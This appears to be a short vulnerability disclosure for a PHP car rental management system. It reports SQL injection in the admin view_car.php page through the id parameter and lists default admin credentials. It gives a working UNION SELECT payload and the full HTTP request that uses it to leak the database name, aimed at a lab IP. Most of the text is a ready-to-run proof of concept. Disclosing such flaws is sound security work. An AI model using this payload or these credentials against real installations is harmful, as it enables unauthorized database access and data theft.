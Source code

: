 # Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: /car-rental-management-system/admin/view_car.php?id=

Vulnerability location: /car-rental-management-system/admin/view_car.php?id=,id

[+] Payload: /car-rental-management-system/admin/view_car.php?id=-6%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ // Leak place ---> id

Current database name: car_rental_db

```sql
GET /car-rental-management-system/admin/view_car.php?id=-6%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170960995-9a059f6b-d1ea-4ed3-a654-6494020e60f7.png)

![image](https://user-images.githubusercontent.com/54017627/170961027-f7a26572-c48f-4856-927a-9f0b365a2738.png)
